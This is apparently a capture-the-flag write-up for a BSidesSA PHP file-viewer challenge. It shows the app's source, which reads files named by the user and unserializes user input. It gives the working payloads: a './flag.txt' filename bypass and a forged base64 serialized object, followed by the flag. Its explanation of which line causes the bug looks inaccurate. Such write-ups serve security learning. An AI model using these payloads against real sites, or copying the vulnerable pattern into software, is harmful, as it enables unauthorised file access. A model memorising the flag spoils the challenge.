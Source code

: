 # Undynamic NoSQL

Upon first viewing of the web page, we get this:

<p align="center"> <img src="./1.png" > </p>

The expected functionality is that the web page will display a file from the drop down list.

<p align="center"> <img src="./2.png" > </p>

## Challenge Begins

The first thing to do was view the page source where the following comments appeared:

```
<!--<option value="flag.txt">flag.txt</option>-->
<!--<option value="index.php">index.php</option>-->
```

Modifying the GET request by changing the filename parameter value in the URL to access index.php showed:

view-source://xx.xx.xx.xx/?filename=index.php

```
<html>
<h1>FileViewer</h1>
<form action="/">
<select name="filename">
<!--<option value=".">.</option>-->
<!--<option value="..">..</option>-->
<option value=".htacccess">.htacccess</option>
<option value="DemoController.cs">DemoController.cs</option>
<option value="factorial.js">factorial.js</option>
<!--<option value="flag.txt">flag.txt</option>-->
<!--<option value="index.php">index.php</option>-->
<option value="main_test.go">main_test.go</option>
<option value="my.log">my.log</option>
<option value="setup.py">setup.py</option>
</select>
<input type="submit" value="submit">
</form>
<p>Want to save your File View? Bookmark this url: <a href="/?view=TzoxMDoiRmlsZVZpZXdlciI6MTp7czo4OiJmaWxlbmFtZSI7czo5OiJpbmRleC5waHAiO30=">Bookmark me!</a></p>
<?php<br />
session_start();<br />
//parse_str(implode('&', array_slice($argv, 1)), $_GET);<br />
?><br />
<html><br />
<h1>FileViewer</h1><br />
<?php<br />
class FileViewer<br />
{<br />
   var $filename = "";<br />
<br />
   function __construct($filename)<br />
   {<br />
      $this->filename = $filename;<br />
   }<br />
<br />
   function __toString()<br />
   {<br />
      if (!empty($this->filename))<br />
      {<br />
         return file_get_contents($this->filename);<br />
      }<br />
      else<br />
      {<br />
         return "No file!";<br />
      }<br />
   }<br />
}<br />
?><br />
<form action="/"><br />
<select name="filename"><br />
<?php<br />
$files = scandir(".");<br />
foreach ($files as $f)<br />
{<br />
   $select_val = "<option value=\"" . $f . "\">" . $f . "</option>";<br />
   if ($f == "." or $f == ".." or $f == "index.php" or $f == "flag.txt")<br />
   {<br />
      $select_val = "<!--" . $select_val . "-->";<br />
   }<br />
   echo $select_val . "\n";<br />
}<br />
?><br />
</select><br />
<input type="submit" value="submit"><br />
</form><br />
<?php<br />
$my_view = NULL;<br />
if (isset($_GET["filename"]) and !empty($_GET["filename"]) and $_GET["filename"] != "flag.txt")<br />
{<br />
   $my_view = new FileViewer($_GET["filename"]);<br />
   $my_view_b64 = base64_encode(serialize($my_view));<br />
   echo '<p>Want to save your File View? Bookmark this url: <a href="/?view=' . $my_view_b64 . '">Bookmark me!</a></p>';<br />
   echo "\n";<br />
}<br />
elseif (isset($_GET["view"]) and !empty($_GET["view"]))<br />
{<br />
   $my_view = unserialize(base64_decode($_GET["view"]));<br />
}<br />
<br />
if (isset($my_view) and !empty($my_view))<br />
{<br />
   echo nl2br($my_view);<br />
}<br />
?><br />
</html><br />
</html>
```

There appeared to be a bug in 

`$select_val = "<option value=\"" . $f . "\">" . $f . "</option>";<br />` 

which did not properly prevent access to index.php and directory traversal.

Thus, the flag was accessible via editing the filename parameter like so: 

xx.xx.xx.xx/?filename=./flag.txt

The less trivial and likely intended method for solving the challenge is demonstrated by the link saving functionality where the parameter is base64 encoded and passed instead.

An example parameter:

xx.xx.xx.xx/?view=TzoxMDoiRmlsZVZpZXdlciI6MTp7czo4OiJmaWxlbmFtZSI7czoxNzoiRGVtb0NvbnRyb2xsZXIuY3MiO30=

Decoding the base64 encoded string showed the parameter in the following format:

`O:10:"FileViewer":1:{s:8:"filename";s:17:"DemoController.cs";}`

This format was used to write a parameter to access flag.txt:

`O:10:"FileViewer":1:{s:8:"filename";s:8:"flag.txt";}`

Encoding it to base64 and passing it to the parameter provided access to the flag:

xx.xx.xx.xx/?view=TzoxMDoiRmlsZVZpZXdlciI6MTp7czo4OiJmaWxlbmFtZSI7czo4OiJmbGFnLnR4dCI7fQ==

BSidesSA{pea_8ch_pea_1s_gr34t}

